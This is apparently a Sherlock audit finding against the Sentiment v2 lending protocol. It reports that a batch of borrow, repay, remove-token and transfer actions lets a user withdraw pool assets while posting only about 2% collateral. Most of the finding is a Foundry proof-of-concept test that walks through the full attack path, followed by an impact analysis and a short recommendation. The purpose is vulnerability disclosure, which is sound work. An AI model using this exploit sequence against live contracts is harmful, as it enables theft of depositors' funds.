 Abundant Hazel Newt

High

# Large amount of pool assets can be transferred to position by providing much less collaterals

## Summary
Large amount of pool assets can be transferred to position by providing much less collaterals.

## Vulnerability Detail
To borrow assets from pool, a user is required to deposit collaterals into the position. The required amount of collaterals is determined by LTV, assuming LTV is $98\\%$, to borrow $1000$ USDC tokens, user should deposit at least $1021$ USDT. However, a malicious user can bypass the limit and transfers large amount of pool assets to position but deposits much less collaterals.

Assume there are 2 pool: 
1. USDC pool which supports USDT as collateral token, LTV is $98\\%$;
2. USDT pool which supports USDC as collateral token, LTV is $98\\%$.

Bob submits a batch process to do the following:
1. Add USDC token address to the set of position assets;
2. Add USDT token address to the set of position assets;
3. Borrow $1000$ USDC tokens from USDC pool;
4. Borrow $1000$ USDT tokens from USDT pool;
5. Repay USDT pool;
6. Remove USDC token address from the set of position assets;
7. Transfer the borrowed $1000$ USDC from the position to Bob's wallet;
8. Deposit $1021$ USDT in position.

After the batch process, we have the following states:

- Bob wallet USDC balance: $1000$
- Bob position USDT balance: $1021$
- Bob position USDC debt: $1000$

Because USDC and USDC are of the same value, it basically means that Bob transfers $1000u$ assets from pool but only deposits $21u$ collaterals.

Please run the PoC in **BigTest.sol** to verify:
```solidity
    function testAudit_TransferAssets() public {
        // Pool Asset 1
        MockERC20 usdc = new MockERC20("USDC", "USDC", 6);
        // Pool Asset 2
        MockERC20 usdt = new MockERC20("USDT", "USDT", 6);

        vm.label(address(usdc), "USDC");
        vm.label(address(usdt), "USDT");

        vm.startPrank(protocolOwner);
        positionManager.toggleKnownAsset(address(usdc));
        positionManager.toggleKnownAsset(address(usdt));
        riskEngine.setOracle(address(usdc), address(new FixedPriceOracle(1e18)));
        riskEngine.setOracle(address(usdt), address(new FixedPriceOracle(1e18)));
        vm.stopPrank();

        // Create Pools and deposit
        address poolOwner = makeAddr("PoolOwner");
        usdc.mint(poolOwner, 1000e6);
        usdt.mint(poolOwner, 1000e6);

        bytes32 FIXED_RATE_MODEL_KEY = 0xeba2c14de8b8ca05a15d7673453a0a3b315f122f56770b8bb643dc4bfbcf326b;

        vm.startPrank(poolOwner);
        usdc.approve(address(pool), type(uint256).max);
        usdt.approve(address(pool), type(uint256).max);

        // Pool 1
        uint256 poolId1 = pool.initializePool(poolOwner, address(usdc), type(uint128).max, FIXED_RATE_MODEL_KEY);
        riskEngine.requestLtvUpdate(poolId1, address(usdt), 0.98e18);
        riskEngine.acceptLtvUpdate(poolId1, address(usdt));
        pool.deposit(poolId1, 1000e6, poolOwner);

        // Pool 2
        uint256 poolId2 = pool.initializePool(poolOwner, address(usdt), type(uint128).max, FIXED_RATE_MODEL_KEY);
        riskEngine.requestLtvUpdate(poolId2, address(usdc), 0.98e18);
        riskEngine.acceptLtvUpdate(poolId2, address(usdc));
        pool.deposit(poolId2, 1000e6, poolOwner);
        vm.stopPrank();

        /*//////////////////////////////////////////////////////////////
                            Attack Path
        //////////////////////////////////////////////////////////////*/

        // Bob creates position
        address bob = makeAddr("Bob");
        usdt.mint(bob, 1021e6);

        (address payable position, Action memory newPos) = newPosition(bob, "bob");
        positionManager.process(position, newPos);

        // Bob borrows from pool1 and pool2
        Action memory addUsdc = addToken(address(usdc));
        Action memory addUsdt = addToken(address(usdt));
        Action memory borrowUsdc = borrow(poolId1, 1000e6);
        Action memory borrowUsdt = borrow(poolId2, 1000e6);
        Action memory repayPool2 = Action({ op: Operation.Repay, data: abi.encode(poolId2, type(uint256).max) });
        Action memory removeUsdc = removeToken(address(usdc));
        Action memory transferOutUsdc = transfer(bob, address(usdc), 1000e6);
        Action memory depositUsdt = deposit(address(usdt), 1021e6);

        Action[] memory actions = new Action[](8);
        actions[0] = addUsdc;
        actions[1] = addUsdt;
        actions[2] = borrowUsdc;
        actions[3] = borrowUsdt;
        actions[4] = repayPool2;
        actions[5] = removeUsdc;
        actions[6] = transferOutUsdc;
        actions[7] = depositUsdt;
    
        vm.startPrank(bob);
        usdt.approve(address(positionManager), 1021e6);
        positionManager.processBatch(position, actions);
        vm.stopPrank();

        assertEq(usdc.balanceOf(bob), 1000e6); // Bob USDC balance
        assertEq(usdt.balanceOf(position), 1021e6); // Bob position USDT balance
        assertEq(pool.getBorrowsOf(poolId1, position), 1000e6); // Bob position USDC debt
    }
```

## Impact
1. Take the same example in the PoC, to transfer **1_000_000** USDC tokens, attacker only need to provide approximately **21_000** USDT collaterals (2%). As a result, A attacker can prevent honest users from borrowing assets, by front-running to transfer all the assets pool to the attacker's position, then back-run to repay in the same block at no costs.
2. Attacker's position can be immediately liquidatable in the next block, when the position is liquidated by the attacker, it's possible that tokens can be stolen from the pool.

## Code Snippet
https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/main/protocol-v2/src/PositionManager.sol#L248-L264

## Tool used
Manual Review

## Recommendation
It is recommended to add more health check within batch process.